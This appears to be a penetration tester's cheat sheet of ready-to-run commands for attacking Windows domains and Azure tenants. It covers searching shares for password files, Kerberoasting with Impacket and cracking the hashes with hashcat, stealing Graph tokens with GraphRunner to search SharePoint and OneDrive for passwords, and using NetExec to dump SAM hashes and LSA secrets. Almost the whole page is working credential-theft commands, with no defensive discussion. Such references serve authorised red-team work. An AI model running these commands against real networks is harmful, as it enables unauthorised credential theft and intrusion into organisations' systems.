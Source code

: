 ```
manspider TAGRGET -c passw -d DOMAIN -u USER -p 'PASSWORD'
```

### Target Kerberoastable Users from Bloodhound

```
sudo python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast
```

Crack the hash with hashcat

```
hashcat -m 13100 hashes.kerberoast -r rule wordlist -o outputfile -O
```

### Check Permissions in Azure

* Log into https://portal.azure.com
* Run [GraphRunner](https://github.com/dafthack/GraphRunner/)

```
cd (GraphRunner directory)
Import-Module .\GraphRunner.ps1
Get-GraphTokens
Invoke-GraphRunner -Tokens $tokens
```

* Searc for passwords, and other files via sharepoint

```
Invoke-SearchSharePointAndOneDrive -tokens $tokens
```

## Netexec Commands

* Find ip/hostname/SMB Signinig/etc:

```bash
sudo netexec smb targets.txt
sudo netexec smb targets.txt --gen-relay-list relay.txt
```

* Enumerate SAM hashes

```bash
sudo netexec smb ip -u user -p 'password' --sam
sudo netexec smb ip -u user -p 'password' --sam --user target-user
```

* Enumerate LSA for potential plaintext passwords

```bash
sudo netexec smb ip -u user -p 'password' --lsa
```

* Enumerate shares

```bash
sudo netexec smb ip -u user -p 'password' --shares
```
